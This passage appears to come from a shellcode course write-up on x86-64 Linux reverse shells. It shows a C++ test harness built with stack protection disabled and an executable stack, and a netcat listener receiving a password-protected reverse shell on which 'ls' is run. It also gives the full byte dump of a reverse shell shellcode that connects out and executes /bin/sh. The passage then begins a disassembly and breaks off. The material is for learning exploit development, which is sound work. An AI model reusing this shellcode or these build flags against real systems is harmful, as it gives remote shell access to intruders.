 ```plaintext
\x93\xb0\x3c\x0f\x05

```
We compile it and execute it : 
```plaintext
skrox@kali:~$ g++ -fno-stack-protector -z execstack -o shellcode shellcode.cpp 
skrox@kali:~$ ./shellcode 
Shellcode size : 106

```
We will run it two times, first to test the exit, then to test the shell
In the terminal of our netcat listener : 
```plaintext
skrox@kali:~$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 36740
cvvcx
skrox@kali:~$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 36742
L33tP4ss
ls
RevShell-null-removed.nasm
RevShell-original.nasm
compile.sh
reverse-pass
reverse-pass.nasm
reverse-pass.o
shellcode
shellcode.cpp
exit

```
We are done with the first part.

## Removing Null bytes from the reverse shellcode from the course

### Dump of the original shellcode

First we will compile it then we will disassemble it :
```plaintext
skrox@kali:~$ ./compile.sh RevShell-original
[x] Assembling...
[x] Linking...
[x] Dumped shellcode :
\xb8\x29\x00\x00\x00\xbf\x02\x00\x00\x00\xbe\x01\x00\x00\x00\xba\x00\x00\x00\x00
\x0f\x05\x48\x89\xc7\x48\x31\xc0\x50\xc7\x44\x24\xfc\x7f\x00\x00\x01\x66\xc7\x44
\x24\xfa\x11\x5c\x66\xc7\x44\x24\xf8\x02\x00\x48\x83\xec\x08\xb8\x2a\x00\x00\x00
\x48\x89\xe6\xba\x10\x00\x00\x00\x0f\x05\xb8\x21\x00\x00\x00\xbe\x00\x00\x00\x00
\x0f\x05\xb8\x21\x00\x00\x00\xbe\x01\x00\x00\x00\x0f\x05\xb8\x21\x00\x00\x00\xbe
\x02\x00\x00\x00\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68
\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```
```nasm
skrox@kali:~$ objdump -M intel -d RevShell-original

RevShell-original:     format de fichier elf64-x86-64


Déassemblage de la section .text :

0000000000401000 <_start>:
  401000:	b8 29 00 00 00       	mov    eax,0x29
```